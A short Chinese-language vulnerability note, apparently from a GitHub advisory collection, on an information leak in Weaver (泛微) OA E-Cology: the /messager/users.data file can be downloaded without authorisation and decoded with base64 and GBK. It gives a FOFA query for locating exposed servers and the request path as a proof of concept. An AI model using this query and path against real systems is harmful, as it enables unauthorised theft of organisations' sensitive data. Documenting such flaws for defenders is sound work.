


# 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面



验证POC

```
/messager/users.data
```



base64 GBK解码